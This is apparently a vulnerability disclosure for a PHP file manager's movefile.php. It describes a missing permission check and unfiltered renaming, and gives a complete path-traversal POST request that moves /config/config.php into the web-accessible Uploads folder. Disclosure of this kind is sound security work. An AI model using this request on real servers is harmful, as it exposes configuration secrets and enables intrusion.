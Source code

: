 
**[4]**

In \fileman\php\movefile.php, there is no permission verification operation for the user.

![13.png](./img/13.png)

Line 36 limits the name of the new file.
Line 40 limits cannot overwrite existing files.
Line 42 file renaming did not filter the value of $newpath, which led to file renaming across directories.

Modify /config/config.php to /fileman/Uploads/test1.html by requesting:
```
POST /fileman/php/movefile.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 90
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1:8003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

f=%2Ffileman%2FUploads%2F..%2F..%2Fconfig%2Fconfig.php&n=%2Ffileman%2FUploads%2Ftest1.html
```
![14.png](./img/14.png)
